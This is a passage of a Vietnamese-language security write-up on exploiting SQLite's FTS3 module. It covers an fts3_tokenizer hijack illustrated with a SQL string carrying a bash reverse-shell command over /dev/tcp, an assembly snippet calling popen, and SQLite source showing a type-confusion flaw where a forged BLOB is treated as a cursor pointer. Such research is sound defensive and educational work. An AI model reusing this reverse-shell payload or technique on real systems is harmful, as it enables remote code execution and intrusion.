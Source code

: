 Ví dụ ý tưởng chuỗi SQL:
```sql
$db->exec("select fts3_tokenizer('simple', x'$spray_address');
           create virtual table a using fts3;
           insert into a values('bash -c "bash>/dev/tcp/127.1/1337 0<&1"')");
```

Minh họa (assembly rút gọn):
```asm
mov rbx, rsi
lea rsi, [modes]
sub rsp, 0x58
mov rdi, rbx      ; command
call _popen
```

> Ghi chú: **Android** đã loại bỏ/khóa tính năng `fts3_tokenizer`. Từ **SQLite 3.11**, hàm này không hoạt động trừ khi bật khi biên dịch.

---

## 14. Lỗi **Type Confusion** (nhầm lẫn kiểu dữ liệu)

### 14.1. `fts3FunctionArg()` & `optimize()`
Hàm xử lý đối số cho các hàm đặc biệt của FTS3:
```c
static int fts3FunctionArg(
  sqlite3_context *pContext,
  const char *zFunc,
  sqlite3_value *pVal,
  Fts3Cursor **ppCsr
){
  Fts3Cursor *pRet;
  if( sqlite3_value_type(pVal)!=SQLITE_BLOB 
   || sqlite3_value_bytes(pVal)!=sizeof(Fts3Cursor *)
  ){
    char *zErr = sqlite3_mprintf("đối số thứ nhất không hợp lệ cho %s", zFunc);
    sqlite3_result_error(pContext, zErr, -1);
    sqlite3_free(zErr);
    return SQLITE_ERROR;
  }
  memcpy(&pRet, sqlite3_value_blob(pVal), sizeof(Fts3Cursor *));
  *ppCsr = pRet;
  return SQLITE_OK;
}
```

Nếu kẻ tấn công ép kiểu/giả mạo **BLOB** để trông như một **con trỏ**, có thể dẫn đến **type confusion** khi dereference.

Hàm `fts3OptimizeFunc`:
```c
static void fts3OptimizeFunc(
    sqlite3_context *pContext,
    int nVal,
    sqlite3_value **apVal
){
    int rc;
    Fts3Table *p;
    Fts3Cursor *pCursor;

    if( fts3FunctionArg(pContext, "optimize", apVal[0], &pCursor) )
        return;

    p = (Fts3Table *)pCursor->base.pVtab;
    rc = sqlite3Fts3Optimize(p);
```